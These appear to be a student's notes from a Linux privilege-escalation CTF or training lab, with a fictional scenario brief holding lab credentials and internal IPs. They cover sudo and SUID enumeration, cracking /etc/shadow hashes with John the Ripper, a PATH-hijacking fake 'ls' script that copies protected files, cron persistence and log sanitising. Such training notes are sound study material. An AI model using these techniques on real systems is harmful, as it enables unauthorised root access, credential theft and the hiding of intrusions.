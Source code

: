 [gtfo bins website](https://gtfobins.github.io)

- ignore anything about restricted shell
- literally copy paste the valid commands you find from performing `sudo -l
- super duper best friend for privesc`
- look at nonstandard binaries (gtfo bins wont help for these)
## SUDO STUFF

`sudo -l`	:	shows the commands you can run sudo with as current user. IF YOU SEE ANYTHING, TAKE NOTE!
`/etc/sudoers`	:	file containing all users with sudo access
- if you can sudo `cat`, you can crack passwords with john after looking into `/etc/shadow`!!
- world writeable directories: use `/tmp`

## SUID/GUID
- look for these set bits to pop root
- `find / -perm /4000 2>/dev/null`	:	returns any files with the SUID bit set
- `find / -perm /2000 2>/dev/null`	:	returns any files with the GUID bit set
- 

## CRONS
- [crontab guru, helpful for creating crons](https://crontab.guru/)
- look into netcat listeners, anything running under root, anything that looks out of the ordinary/opening weird files. use your analyst brain
- `crontab -l`    :   lists all cronjobs
- `sudo crontab -l`   :   lists all of root's cronjobs
- `/etc/crontab`      :   the actual crontab directory
- `/etc/cron.*`   :   dont actually use * here. there are 6 cron directories to check, start at cron.d and work your way through them
- look at crons! super important. netcat listeners and beacons are huge


## INSECURE PERMISSIONS / DOT IN THE PATH
- `echo $PATH`	:	shows your directory paths for binaries
- look for `.` in your path variable; can be exploited to run scripts with the same names as known binaries from your current workig directory


## USER ACCOUNTS

`user add`

## SANITIZING LOGS

- minimum of 2 logs (ssh login, ssh exit)
- syslog, rsyslog, /var/log

## READING FILES
-consider using head/tail to find flags easier


## RSYSLOG

`/etc/rsyslog.d/*`
`/etc/rsyslog.conf`





methodology

- look at sudo commands `sudo -l`
- if none? look at SUID/GUID bits with find command
- check gtfobins for each result from your find command related to SUID/GUID
- 


# JOHN THE RIPPER DEMO

```
sudo apt install john


vim shadow    #put the entire line into the file from /etc/shadow
john --wordlist=rockyou.txt shadow.txt --show 


                      ^ reconnaissance will show you what wordlist you need to use for john in order to pass le test






```






# CTFD

```
Donovian Linux Privilege Escalation, and Persistence (DLP)
XX Feb 2027
Start Time: 1300
Duration: 4 hours

Type of Operation: Cyberspace Exploitation (C-E)

Objective: Maneuver into the Donovian internal network, gain privileged access to discovered Linux hosts.

Tools/Techniques: SSH masquerade into internal network with provided credentials. Ports in use will be dependent on target location and are subject to change. Linux techniques to gain privileged access and persist are limited to host misconfigurations, open suid/sgid, weak permissions, and path. Network scanning tools/technique usage is at the discretion of student.

Scenario Credentials: FLAG = H@RDl1nux5t@rt0F@ct1v1ty

Prior Approvals: Privilege escalation, persistence, and restarting of services through host reboot. Host survey and log sanitation utilizing native command shells, which shell is at discretion of student. NOT authorized is uploading of tools or altering account information.

Scheme of Maneuver:
>internet_grey_host
->Pivot:192.168.28.105
--->T1: 192.168.28.27
--->T2: 192.168.28.12

Target Section:

Pivot
Hostname: Donovian-Terminal
IP: 192.168.28.105
OS: Ubuntu 18.04
Creds: comrade :: StudentReconPassword
Last Known SSH Port: 2222
PSP: rkhunter
Malware: none
Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

T1
Hostname: unknown
IP: 192.168.28.27
ghjcnbnenrf      (zeus)
OS: Linux ver: Unknown
Creds: comrade :: StudentPrivPassword
Last Known Ports: unknown
SSH PORT: 22 default
PSP: unknown
Malware: unknown
Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.

T2
Hostname: unknown
IP: 192.168.28.12
OS: Linux ver: Unknown
Creds: comrade :: StudentPrivPassword
Last Known Ports: unknown
PSP: unknown
Malware: unknown
Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.



USING A FALSE BINARY TO PERFORM PRIVESC (sussy ls command)

example:
> cd /tmp
> touch ls

#!/bin/bash
/bin/cat /home/billybob/f!@g1.txt > /tmp/actualFlag.txt
/bin/cat /home/billybob/10-million-password-list-top-10000.txt > /tmp/passList.txt
/bin/cat /home/billybob/logs > /tmp/logs
/usr/bin/sudo -l > /tmp/sudoCommands


change the commands accordingly


crontabs: 

> crontab -e

make sure you use the cron guru website to build your crons

append your command to the end of the crontab

watch -n1 'what_to_watch' ##for ease of use


```
